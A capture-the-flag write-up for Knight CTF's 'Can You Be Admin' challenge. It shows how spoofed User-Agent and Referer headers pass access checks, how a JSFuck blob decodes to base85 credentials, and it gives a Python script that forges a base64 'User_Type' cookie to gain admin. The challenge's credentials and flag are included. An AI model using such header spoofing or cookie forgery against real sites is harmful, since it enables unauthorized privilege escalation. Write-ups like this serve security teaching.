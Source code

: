 # Kignht CTF - Can You Be Admin

**The page said**: Only KnightSquad agents can access this page.

**I said**: 
```html
User-Agent: KnightSquad
```
**The page said**: This page refers to knight squad home network. So, Only Knight Squad home network can access this page.

**I said**: 
```html
Referer: localhost
```

Edit two above headers, at the bottom of the page, we get bunch of hidden JSFuck code:
```
[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])
```
Ok, let's decode it:
```
F`V,7DIIBn+?CWe@<,q!$?0EpF*DPCA0<oU8RZI/DJ<`sF8
```
Is nonsense right, is hard but my teammate find out, is base 85, remember the format plss:
```
username : tareq
password : IamKnight
```

Logged in, we still a normal user, check the cookies, there's a cookie name User_Type with value Normal_User all base64 encode, change Normal_User to Admin, we logged in as admin:

```python
import requests
import base64

url = 'http://can-you-be-admin.kshackzone.com/dashboard.php'

cookies = {
    'PHPSESSID': 'c0bc7a8184ea78364d4b7d8d9828c34a',
    'VXNlcl9UeXBl': base64.urlsafe_b64encode('Admin'.encode()).decode(),
}

r = requests.get(url, cookies=cookies, verify=False)

print(r.text)
```

**flag**: `KCTF{FiN4LlY_y0u_ar3_4dm1N}`

